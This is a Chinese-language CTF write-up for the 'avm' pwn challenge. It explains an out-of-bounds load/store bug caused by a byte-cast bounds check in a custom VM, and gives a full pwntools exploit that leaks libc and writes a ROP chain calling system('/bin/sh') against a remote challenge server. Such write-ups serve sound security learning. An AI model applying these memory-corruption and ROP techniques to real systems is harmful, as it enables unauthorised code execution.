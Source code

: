 ```yaml
---
title: 国赛 x 长城杯 初赛 - avm
date: 2025/03/17 18:33:00
updated: 2025/03/24 18:33:00
tags:
    - vm
thumbnail: /assets/ciscnxccb2025/errorcode.png
excerpt: 利用程序逻辑错误实现越界存取，通过ROP链获取shell。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.35-0ubuntu3.8|

## 解题思路

程序构造了一个类似于mips的vm，在bss上放着vm的结构，包含32个64位寄存器，text地址，
pc和text终结地址。每一条指令都占4字节，布局为5位的dest寄存器，5位的from寄存器，
12位的offset和4位的opcode。opcode共映射到10个函数，其中的`f9`和`f10`对偏移的判断存在逻辑错误：
由于使用`byte`(`unsigned char`)强制转换，导致该式永远成立，因此可以实现越界store和load。

![](/assets/ciscnxccb2025/errorcode.png)

从`main`的返回地址`__libc_start_main`获取libc，从`main`的rbp获取1（程序不支持imm），
然后构造出`pop rdi`、`/bin/sh`和`system`的地址并覆写vm函数的返回地址，实现rop拿shell。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './avm'

ADD     = 1
SUB     = 2
MUL     = 3
DIV     = 4
XOR     = 5
AND     = 6
LSHIFT  = 7
RSHIFT  = 8
STORE   = 9
LOAD    = 10

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x1afc)\nb *$rebase(0x1aaf)\n')
    else:
        sh = remote('39.105.102.220', 26719)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.8_amd64/libc.so.6')

    # 0x29d90 -> leak; 0x2a3e5 -> pop rdi; 0x1d8678 -> /bin/sh; 0x50d70 -> system
    leak = 0x29d90
    def assemble(buf: bytearray, op: int, dst: int, reg1: int, reg2: int):
        buf.extend(p32((op << 28) + (reg2 << 16) + (reg1 << 5) + dst))

    def construct(buf: bytearray, dst: int, num: int):
        stack = []
        while num:
            stack.append(num & 1)
            num >>= 1
        while stack: # 10110 -> 0 1 1 0 1 -> 10110
            if stack.pop(): # 1
                assemble(buf, ADD, dst, dst, 1)
            if len(stack) > 0:
                assemble(buf, LSHIFT, dst, dst, 1)
        assemble(buf, ADD, dst, dst, 2)

    ops = bytearray()
    assemble(ops, LOAD, 2, 0, 0xd38) # r2 = leak
    assemble(ops, LOAD, 1, 0, 0xd30) # r1 = 1
    construct(ops, 3, 0x2a3e5 - leak) # r3 = pop rdi
    construct(ops, 4, 0x1d8678 - leak) # r4 = /bin/sh
    construct(ops, 5, 0x50d70 - leak) # r5 = system
    construct(ops, 6, 0x2a3e6 - leak) # r6 = ret
    assemble(ops, STORE, 3, 0, 0x118)
    assemble(ops, STORE, 4, 0, 0x120)
    assemble(ops, STORE, 6, 0, 0x128)
    assemble(ops, STORE, 5, 0, 0x130)

    sh.sendafter(b'opcode', bytes(ops))

    sh.clean()
    sh.interactive()
    sh.close()
```

{% note default fa-flag %}
![](/assets/ciscnxccb2025/avmFLAG.png)
{% endnote %}
